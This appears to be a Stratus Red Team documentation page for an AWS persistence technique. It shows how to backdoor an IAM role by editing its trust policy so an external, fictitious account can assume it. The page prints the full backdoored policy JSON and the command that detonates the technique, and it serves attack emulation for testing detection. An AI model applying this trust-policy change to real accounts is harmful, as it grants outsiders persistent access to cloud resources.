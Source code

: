 ```yaml
---
title: Backdoor an IAM Role
---
```


# Backdoor an IAM Role


 <span class="smallcaps w3-badge w3-blue w3-round w3-text-white" title="This attack technique can be detonated multiple times">idempotent</span> 

Platform: AWS

## MITRE ATT&CK Tactics


- Persistence

## Description


Establishes persistence by backdooring an existing IAM role, allowing it to be assumed from an external AWS account.

<span style="font-variant: small-caps;">Warm-up</span>: 

- Create an IAM role.

<span style="font-variant: small-caps;">Detonation</span>: 

- Update the assume role policy of the IAM role to backdoor it, making it accessible from an external, fictitious AWS account:

<pre>
<code>
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "Service": "ec2.amazonaws.com"
      },
      "Action": "sts:AssumeRole"
    },
    {
      "Effect": "Allow",
      "Principal": {
        "AWS": "arn:aws:iam::193672423079:root"
      },
      "Action": "sts:AssumeRole"
    }
  ]
}
</code>
</pre>


## Instructions

```bash title="Detonate with Stratus Red Team"
stratus detonate aws.persistence.iam-backdoor-role
```